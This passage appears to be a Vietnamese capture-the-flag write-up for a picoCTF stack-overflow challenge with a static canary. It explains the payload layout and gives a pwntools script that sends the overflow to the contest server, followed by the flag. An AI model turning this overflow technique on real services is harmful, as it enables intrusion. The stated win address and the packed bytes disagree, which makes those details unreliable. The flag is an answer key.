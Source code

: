 * Vậy ta cần một chuỗi bao gồm 64 kí tự + canary + 16 kí tự + win address
* Bây giờ tiến hành remote để lấy canary từ server, ta có được `BiRd`
* Địa chỉ hàm win là `0x08048336`
* File exploit.py để khai thác:
```
from pwn import *

host, port = "saturn.picoctf.net", 51452
p = remote(host, port)
p.sendline(b'200')
p.sendline(b'A'*64 + b'BiRd' + b'B'*16 + b'\x36\x93\x04\x08')

print(p.recvall())
p.close()
```

Flag : `picoCTF{Stat1C_c4n4r13s_4R3_b4D_fba9d49b}`